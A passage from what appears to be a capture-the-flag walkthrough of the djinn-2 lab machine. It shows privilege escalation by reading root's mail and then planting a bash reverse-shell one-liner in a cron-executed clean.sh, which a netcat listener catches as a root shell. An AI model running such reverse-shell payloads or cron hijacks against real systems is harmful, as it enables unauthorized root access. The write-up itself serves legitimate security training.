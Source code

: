 Now privesc to `root` is really simple, if we go to `/var/mail` we can read an email.

```bash
ugtan@djinn:/var/mail$ ls
ls
root  ugtan
ugtan@djinn:/var/mail$ cat ugtan
cat ugtan
From root@djinn  Mon Jan 13 19:36:24 2020
Return-Path: <root@djinn>
X-Original-To: ugtan@djinn
Delivered-To: ugtan@djinn
Received: by djinn (Postfix, from userid 0)
	id E2B7C82E9F; Mon, 13 Jan 2020 19:36:24 +0530 (IST)
Subject: Way to clean up the systems
To: <ugtan@djinn>
X-Mailer: mail (GNU Mailutils 3.4)
Message-Id: <20200113140624.E2B7C82E9F@djinn>
Date: Mon, 13 Jan 2020 19:36:24 +0530 (IST)
From: root <root@djinn>

Hey 0xmzfr,
I've setup the folder that you asked me to make in my home directory,
Since I'd be gone for a day or two you can just leave the clean.sh in
that directory and cronjob will handle the rest. 

- Ugtan_
```

We just have to create the `clean.sh` with our payload in.

```bash
ugtan@djinn:/home/ugtan/best/admin/ever$ touch clean.sh
touch clean.sh
ugtan@djinn:/home/ugtan/best/admin/ever$ echo "bash -i >& /dev/tcp/$your_ip/7777 0>&1" > clean.sh
```

Few seconds later..

```bash
$ nc -lvp 7777
root@djinn:~# whoami
whoami
root
root@djinn:~# 
```

Let's read the flag.

```bash
root@djinn:~# bash proof.sh
bash proof.sh
TERM environment variable not set.
proof.sh: line 9: figlet: command not found
djinn-2 pwned...
__________________________________________________________________________

Proof: cHduZWQgZGppbm4tMiBsaWtlIGEgYm9zcwo=
Path: /root
Date: Tue May 26 00:52:15 IST 2020
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://mzfr.github.io/donate/)
```